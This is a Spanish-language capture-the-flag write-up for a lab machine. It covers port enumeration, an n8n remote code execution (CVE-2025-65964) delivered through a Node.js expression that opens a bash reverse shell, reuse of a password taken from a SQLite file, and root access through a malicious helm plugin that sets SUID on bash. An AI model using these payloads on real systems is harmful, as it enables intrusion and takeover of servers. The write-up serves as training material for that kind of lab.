






## Table of contents

## Enumeración

La máquina Automatismos Rodríguez tiene la ip **10.0.2.84**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -min-rate 5000 -sCV -n -Pn 10.0.2.84

Host is up (0.0011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.28.3 (Ubuntu)
|_http-server-header: nginx/1.28.3 (Ubuntu)
|_http-generator: Automatismos Rodr\xC3\xADguez Web Engine v2.4
|_http-title: Automatismos Rodr\xC3\xADguez | Especialistas en Puertas Autom\xC3\xA1tica...
5678/tcp open  rrac?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
...
```
 
### Puerto 80 (Web)

Accedemos a la ip con el navegador y al revisar el código fuente encontramos las credenciales de una plataforma **n8n**.



### Puerto 5678 (n8n)

**n8n** es una plataforma de automatización de flujos de trabajo. Se ejecuta por defecto en el puerto 5678, así que accedemos a ella con el navegador y nos autenticamos con las credenciales encontradas.

Revisando la versión, vemos que es la **1.119.0**



Esta versión tiene reportado un **CVE-2025-65964** con una puntuaciación **CVSS** de 9.4 (CRITICAL), esta vulnerabilidad permite un **Remote Code Execution** (**RCE**).

## Explotación
### CVE-2025-65964 RCE

Para explotarla:

1) Creamos un **workflow**.



2) Le damos a "**Add first step...**" y añadimos un "**Manual Trigger**".



3) Pinchamos en el símbolo de "**[+]**" y añadimos un "**Edit Fields (Set)**".



4) Introducimos la siguiente reverse shell hecha en **nodejs**, nos ponemos en escucha con **Netcat** y pinchamos en "**Execute step**" para que nos ejecute nuestro código.

```js
{{ (function(){ return this.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.0.2.15/4444 0>&1"').toString() })() }}
```




Recibimos la shell como el usuario **www-data**.

## Movimiento Lateral
### Pedro

Al revisar el directorio raíz (**/**) del servidor vemos un archivo **rrhh**

```bash
www-data@automatismosrodriguez:~$ ls -la /
total 92
drwxr-xr-x  20 root root  4096 Aug 28 19:01 .
drwxr-xr-x  20 root root  4096 Aug 28 19:01 ..
lrwxrwxrwx   1 root root     7 Apr 20 10:46 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Aug 28 18:26 boot
dr-xr-xr-x   2 root root  4096 Aug 28 18:23 cdrom
drwxr-xr-x  19 root root  4080 Sep 19 09:12 dev
drwxr-xr-x 119 root root  4096 Aug 29 11:14 etc
drwxr-xr-x   4 root root  4096 Aug 28 19:00 home
lrwxrwxrwx   1 root root     7 Apr 20 10:46 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 20 10:46 lib64 -> usr/lib64
drwx------   2 root root 16384 Aug 28 18:25 lost+found
drwxr-xr-x   2 root root  4096 Aug 26 06:45 media
drwxr-xr-x   2 root root  4096 Aug 26 06:45 mnt
drwxr-xr-x   3 root root  4096 Aug 28 19:04 opt
dr-xr-xr-x 173 root root     0 Sep 19 09:11 proc
drwx------   6 root root  4096 Aug 28 20:23 root
-rw-r--r--   1 root root 20480 Aug 28 19:01 rrhh
drwxr-xr-x  36 root root  1020 Sep 19 09:39 run
lrwxrwxrwx   1 root root     8 Apr 20 10:46 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 Aug 26 06:47 snap
drwxr-xr-x   2 root root  4096 Aug 26 06:45 srv
dr-xr-xr-x  13 root root     0 Sep 19 09:59 sys
drwxrwxrwt  15 root root   380 Sep 19 10:36 tmp
drwxr-xr-x  12 root root  4096 Aug 26 06:45 usr
drwxr-xr-x  14 root root  4096 Aug 28 18:58 var
```

Se trata de un archivo de **Sqlite3** que contiene las credenciales del usuario del sistema **pedro**.
```bash
www-data@automatismosrodriguez:~$ strings /rrhh 
SQLite format 3
...
PedroRamos NavasT
cnico Especialista en Automatismos
pedro@automatismosrodriguez.thlpedroef5336bb5d0ea71a5c6ca80d9e8473bbResponsable de despliegue de controladores y sistemas de
...
```

Nos convertimos en el usuario **pedro** con la contraseña **ef5336bb5d0ea71a5c6ca80d9e8473bb**

```bash
www-data@automatismosrodriguez:~$ su pedro
Password: 

pedro@automatismosrodriguez:~$ ls -la
total 24
drwxr-x--- 2 pedro pedro 4096 Aug 28 20:23 .
drwxr-xr-x 4 root  root  4096 Aug 28 19:00 ..
lrwxrwxrwx 1 pedro pedro    9 Aug 28 20:23 .bash_history -> /dev/null
-rw-r--r-- 1 pedro pedro  220 Feb 13  2026 .bash_logout
-rw-r--r-- 1 pedro pedro 3771 Feb 13  2026 .bashrc
lrwxrwxrwx 1 pedro pedro    9 Aug 28 20:23 .lesshst -> /dev/null
-rw-r--r-- 1 pedro pedro  807 Feb 13  2026 .profile
-rw-r--r-- 1 pedro pedro   38 Aug 28 19:00 user.txt
```

## Escalada de Privilegios
### Root

Los permisos **sudoers** del usuario **pedro** le permiten ejecutar **helm** como cualquier usuario. **Helm** es un gestor de paquetes para **Kubernetes**.

Vamos a abusar de este privilegio para hacer que el usuario **root** le otorgue permisos **SUID** a la **bash** y así poder lanzarnos una bash privilegiada.

Primero, vamos a crear un directorio en **tmp** que contendrá el plugin y posteriormente, crearemos un plugin malicioso (lo llamaremos **pwned**).

```bash
pedro@automatismosrodriguez:~$ mkdir /tmp/plugin
pedro@automatismosrodriguez:~$ cat << EOF > /tmp/plugin/plugin.yaml
name: "pwned"
version: "1.0.0"
command: "chmod u+s /bin/bash"
EOF
```
Hecho esto, utilizamos **helm** para instalar y ejecutar el plugin. De esta forma, ya podemos lanzarnos una bash privilegiada.

```bash
pedro@automatismosrodriguez:~$ sudo /usr/bin/helm plugin install /tmp/plugin
Installed plugin: pwned
pedro@automatismosrodriguez:~$ sudo /usr/bin/helm pwned
pedro@automatismosrodriguez:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1540520 Feb 13  2026 /bin/bash

pedro@automatismosrodriguez:~$ /bin/bash -p
bash-5.3# whoami
root
bash-5.3# ls -la /root
total 48
drwx------  6 root root 4096 Aug 28 20:23 .
drwxr-xr-x 20 root root 4096 Aug 28 19:01 ..
lrwxrwxrwx  1 root root    9 Aug 28 20:23 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 20 10:46 .bashrc
lrwxrwxrwx  1 root root    9 Aug 28 20:23 .lesshst -> /dev/null
drwxr-xr-x  3 root root 4096 Aug 28 19:16 .local
drwxr-xr-x  5 root root 4096 Aug 28 19:12 .npm
-rw-------  1 root root   75 Aug 28 19:02 .npmrc
-rw-r--r--  1 root root  132 Apr 20 10:46 .profile
drwx------  2 root root 4096 Aug 28 18:27 .ssh
-rw-------  1 root root   38 Aug 28 19:00 root.txt
drwx------  3 root root 4096 Aug 28 18:27 snap
-r-xr-xr-x  1 root root 7037 Aug 28 18:26 vboxpostinstall.sh
```